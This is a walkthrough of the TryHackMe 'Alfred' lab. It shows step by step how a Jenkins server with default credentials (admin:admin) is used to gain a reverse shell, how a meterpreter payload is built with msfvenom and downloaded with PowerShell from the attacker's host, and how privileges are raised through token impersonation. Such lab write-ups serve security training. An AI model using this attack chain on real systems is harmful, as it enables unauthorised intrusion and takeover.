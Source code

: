 > This is a dump from a blog post by bryan wendt. Too lazy to recreate
This is a walkthrough for the room: Alfred on TryHackMe. Let’s get started!
Initial Access

First question is asking about how many TCP ports are open, however it does note that the server will not respond to ping, so we need to run the -Pn option for our nmap scan.

We see that this is clearly a Microsoft server, and there is a website on port 80 and 8080. Let’s take a look!

Wow, poor Batman! We know we are looking for login information since the next question asks for it. So there has to be some sort of login page. Let’s try checking 8080.

Report this ad

Bingo! Now we still need a login. Let’s try some default credentials. After looking up Jenkins default credentials: admin:password trying that doesn’t work. Let’s try admin:admin. That works!

NOTE: I got lucky here by guessing default creds, but you could brute force this with hydra if it was more difficult.

Next, the room tells us to find a feature of the system that allows us to run commands. From there we can get a reverse shell on our machine using the command they give us.

If we navigate into the already created project, we can explore some more. Eventually, we get to Configure. In here under Build, we can run commands on the local system.

Before we do this, we need to download the script the room gives us (here) to our local machine. And then setup our python server:

python3 -m http.server 80

Then open a new terminal tab and start a netcat listener

nc -nvlp 1234

Now, let’s enter our commands we want the server to execute. (These are given to us)

Click Apply, Save then select Build Now. If you go to your netcat listener terminal, you should now have a shell!

Now that we are in, we can look for the user flag!

Alright! Next section.
Switching Shells

First step is to create our payload. Let’s open a new terminal and put in the commands given:

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_vpn_ip> LPORT=1235 -f exe -o win_shell.exe

With the output, we get our next answer:

Now we need to download the payload to the machine. Utilize the command given and run it in our shell on the victim machine.

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<thm_vpn_ip>:80/shell-name.exe','shell-name.exe')"

NOTE: If you stopped your Python webserver earlier, you will need to start that again under the folder where you save the payload: python3 -m http.server 80

Now, once again we need to start a listener, but since this is a meterpreter shell, we will need to use metasploit. Open a new terminal:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1235
run

Now that our listener is running, let’s start the payload by entering Start-Process "shell-name.exe" in the current shell on the victim machine.

You should now have a shell in metasploit!
Privilege Escalation

Let’s follow along with the instructions. Type shell and then whoami /priv

Exit the local shell: exit, and run the following:

load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid

Just like the room says, we need to migrate to a process that is running as NT AUTHORITY\SYSTEM. Lets run ps and look for the services.exe process

From here we can run the following command: migrate 668

There let’s get the root flag!

